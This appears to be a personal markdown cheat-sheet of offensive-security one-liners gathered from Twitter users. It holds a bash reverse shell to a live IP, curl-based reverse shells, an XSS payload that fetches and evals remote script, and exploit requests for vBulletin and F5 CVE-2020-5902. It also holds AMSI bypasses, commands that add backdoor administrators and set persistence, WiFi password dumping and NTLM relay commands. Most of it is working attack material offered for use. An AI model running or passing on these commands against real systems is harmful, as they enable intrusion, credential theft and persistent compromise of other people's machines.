

# notes 

### The Money Shot - Netwalker Ransomware via DFIR Report
````
C:\psexec.exe @ip-list.txt -d cmd /c “(net use q: /delete /y &; net use q: \\DomainController\DomainName /user:DomainName\administrator ThisWasThePassword &; powershell -ExecutionPolicy ByPass -NoLogo -NoProfile -windowstyle hidden -NoExit -File q:\P100119.ps1”
````

### Directory/File recon tricks via Georgiv again :heart:


### sinaei @Intel80x86
````
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)} | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize
````

### A rival! King Of Tips apparently

https://github.com/KingOfBugbounty/KingOfBugBountyTips

````
export domain="https://paypal.com";gospider -s $domain -d 3 -c 300 | awk '/linkfinder/{print $NF}' | grep -v "http" | unfurl paths | anew | xargs -I@ -P50 sh -c 'echo $domain@ | httpx -silent -content-length'
````

:salt:

### Live dump Windows kernel with Grzegorz Tworek @0gtweet

````
$ss = Get-CimInstance -ClassName MSFT_StorageSubSystem -Namespace Root\Microsoft\Windows\Storage; Invoke-CimMethod -InputObject $ss -MethodName "GetDiagnosticInfo" -Arguments @{DestinationPath="C:\Temp"; IncludeLiveDump=$true}
````

### @nthcolumn with the bare bones reverse shell
````
exec 5<>/dev/tcp/194.26.29.6/6666
cat <&5 | while read line; do $line 2>&5 >&5; done
````

### android pentesting @vasim_infosec

https://manifestsecurity.com/android-application-security/

https://eshlomo.us/mobile-penetration-testing-kit/

https://github.com/vaib25vicky/awesome-mobile-security

https://github.com/tanprathan/MobileApp-Pentest-Cheatsheet

video playlist : https://youtube.com/watch?v=vx-FKEqi9b8&list=PLgnrksnL_Rn09gGTTLgi-FL7HxPOoDk3R

https://gbhackers.com/mobile-application-penetration-testing/amp/?__twitter_impression=true

### @jonasLyk burning shit down

````
mklink "C:\ProgramData\Microsoft\Windows Defender:omgwtfbbq" "\??\NUL"
````

### @rootsecdev straight up making me type
````
$cert=(dir cert:currentuser\my\ -CodeSigningCert)
Set-AuthenticodeSignature .\HashDeploy.ps1 $cert -TimestampServer http://tsa.starfieldtech.com
````

### then this @h4x0r_dz 
0day RCE exploit on vBulletin 5xx

dork ; intext:"Powered by vBulletin"

POC
````
curl -s http://SITE/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=echo%20shell_exec("id"); exit;'
````

### whoa there @Sambal0x (Richard Tan) with the beefiest threadzilla:
Having trouble bypassing SSL-pinning on Android app? 

````
apktool -r d com.example.apk
find . -type f -exec sed -i 's/https\:\/\/api.example.com\//http\:\/\/api.example.com\//g' {} +
apktool empty-framework-dir --force
apktool b com.example -o test.apk

keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000
jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.keystore test.apk alias_name

````
In Burp suite, configure Proxy Listener to redirect port from 80 to 443.

Profit! though some app just don't work with this method 	:sweat_smile:

Original idea from https://hackerone.com/blog/AndroidHackingMonth-qa-with-bagipro


### @swiftonsecurity does no code

Ransomware IOC.

````
adfind.exe
nc.exe
winexesvc.exe
tor.exe
cmdkey.exe
regini.exe
vaultcmd.exe
ldifde.exe
csvde.exe
rar.exe
dsquery.exe
````

### @popopret with the wifi hax

````
netsh wlan show profile
netsh wlan show profile "<WiFi_Profile_Name>" key=clear
````
### @mRr3b00t does the basics and I add some

````
net user /add MfeEPSvc h4x0r0p53c!
net localgroup administrators /add MfeEPSvc
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote administration" new enable=yes
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer" /v AlwaysInstallElevated /t REG_DWORD /d 1 /f
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v "Debugger" /t REG_SZ /d "C:\$Recycle.Bin\notpad.exe"

````

### matty graeber I think it was:

````
[Ref].Assembly.GetType('http://System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
````

and old school AMSI bypass by reflection recorded here for posterity. 

#### improved on by @cobblr
````
[ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))

# check
Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure
````

### @joevennix writes:

````
reverse curl is a solid payload:

P=$(mktemp -u);mkfifo $P;curl -sNkT . https://$LHOST:$LPORT<$P|sh>$P
````
(diskless on linux):

````  
{ curl -sNkT . https://$LHOST:$LPORT </dev/fd/3| sh 3>&-;} 3>&1|:
````
diskless linux reverse shell :fire:

### @noopy writes:

````
["Computers you have admin on","HTML","pwn.html","MATCH (m:Group {name: 'GROUP@EXAMPLE.COM'})-[r:AdminTo]->(n:Computer) RETURN http://n.name"]
Copy+paste -> CrackMapExec
````
Bloodhound tip. :star:

### @neosysforensics ™  for PrintDemon bug on Windows 7

```
1. Set-WmiInstance -Class Win32_Printer -Argument @{DriverName="Generic / Text Only" ;PortName="c:\windows\system32\mydll.dll" ;DeviceID="EvilPrinter" ;RawOnly="True"}

2. $printers=Get-WmiObject Win32_Printer

3. $printer = $printers | where {$_.name -eq "EvilPrinter"}

4. $printer.Pause()

5. Start-Process -FilePath “mydll.txt" -Verb Print

--Reboot the system--

6. $printers=Get-WmiObject Win32_Printer
7. $printer = $printers | where {$ _.name -eq "EvilPrinter"}
8. $printer.Resume()
```
### @akita_zen from Argentina says

```
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### From Paul Seekamp @nullenc0de...

SMB Signing enabled? NetBIOS and LLMNR disabled? Need another way in?

```
mitm6 -i eth0 -d example.local

ntlmrelayx.py -ip 0.0.0.0 -t rpc://example.local -c "net user nullenc0de nullen0code_is_Here /add && net localgroup Administrators nullenc0de /add"
```

### @liamsomerville 

A quick and easy way of pretty printing JSON web tokens: 

```` echo "<JWT>" | tr "." "\n" | base64 -D | jq "." (-d on Linux) ````

### Powershell obfuscation


### @0gtweet (Grzegorz Tworek) on Twitter says

Live kernel dump with PowerShell one-liner :sunglasses:

````
$ss = Get-CimInstance -ClassName MSFT_StorageSubSystem -Namespace Root\Microsoft\Windows\Storage
Invoke-CimMethod -InputObject $ss -MethodName "GetDiagnosticInfo" -Arguments @{DestinationPath="C:\dmp"; IncludeLiveDump=$true}
````

### @x4ce spills the beans on cve-2020-5902 :neckbeard:

First RCE: 

````curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin'````

then arbitrary read File: 

````curl -v -k  'https://[F5 Host]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd'````

### not to be outdone @wugeej rams the exploit in the skids hands
LFI

````
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
or /etc/hosts
or /config/bigip.license
````

RCE

````
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami
````
or to bypass mitigation :eyes:

````https://<IP>/tmui/login.jsp/..%3b/tmui/locallb/workspace/tmshCmd.jsp?command=list````

### @ropnop does javascript! xss source remote payload

````
<svg/onload='fetch("//r0p.cc/a").then(r=>r.text().then(t=>eval(t)))'>
````

but I doubt it will work everywhere?
